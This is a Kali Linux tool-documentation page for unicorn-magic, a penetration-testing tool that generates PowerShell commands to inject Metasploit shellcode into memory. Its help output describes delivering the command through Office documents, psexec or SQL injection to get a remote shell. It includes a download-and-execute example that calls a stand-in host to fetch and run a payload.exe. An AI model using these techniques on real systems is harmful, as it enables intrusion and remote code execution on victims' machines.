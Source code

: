 ```yaml
---
Title: unicorn-magic
Homepage: https://github.com/trustedsec/unicorn
Repository: https://gitlab.com/kalilinux/packages/unicorn-magic
Architectures: all
Version: 3.12-0kali2
Metapackages: kali-linux-default kali-linux-everything kali-linux-headless kali-linux-large kali-tools-web 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### unicorn-magic
 
  This package contains a simple tool for using a PowerShell downgrade attack
  and inject shellcode straight into memory. Based on Matthew Graeber's
  powershell attacks and the powershell bypass technique presented by David
  Kennedy (TrustedSec) and Josh Kelly at Defcon 18.
   
  Usage is simple, just run Magic Unicorn (ensure Metasploit is installed and in
  the right path) and magic unicorn will automatically generate a powershell
  command that you need to simply cut and paste the powershell code into a
  command line window or through a payload delivery system.
 
 **Installed size:** `99 KB`  
 **How to install:** `sudo apt install unicorn-magic`  
 
 {{< spoiler "Dependencies:" >}}
 * metasploit-framework
 * python3
 {{< /spoiler >}}
 
 ##### unicorn-magic
 
 
 ```
 root@kali:~# unicorn-magic --help
 
 [********************************************************************************************************]
 
 				-----POWERSHELL ATTACK INSTRUCTIONS----
 
 Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.
 